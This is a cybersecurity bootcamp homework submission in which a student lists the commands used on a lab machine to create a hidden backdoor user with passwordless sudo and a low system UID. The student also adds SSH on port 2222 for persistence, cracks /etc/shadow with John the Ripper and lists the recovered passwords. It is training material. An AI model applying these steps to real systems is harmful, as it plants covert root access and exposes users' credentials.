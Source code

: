 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - adduser --no-create-home sysd

2. Give your secret user a password: 
    - When prompted for password for user, enter the password. I did SupaMar10

3. Give your secret user a system UID < 1000:
    - usermod -u 202 sysd

4. Give your secret user the same GID:
   - groupmod -g 202 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  visudo
   -  in the sudoers file, append at the end: 
   -  sysd ALL = NOPASSWD: ALL

6. Test that `sudo` access works without your password:
   -  logged in to server as sysd in a new terminal, just to be safe if I made any syntax errors in sudoers

    ```bash
    ssh sysadmin@192.168.6.105 -p 22
    entered password
    sudo su sysd 
    sudo -l
    sudo -u root whoami
    ```
    Both output expected results from someone with sudo access, without asking for a password.

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    uncomment #Port 22
    
    then add below:
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `/etc/init.d/ssh restart`

2. Exit the `root` account:
    - `exit`
    - needed to be done a couple of times

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su`
    - `john /etc/shadow`

Passwords are:
    stallman - computer
    babbage - freedom
    mitnik - trustno1
    lovelace - dragon
    turing - lakers
    sysadmin - passw0rd
    student - Goodluck!
    
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

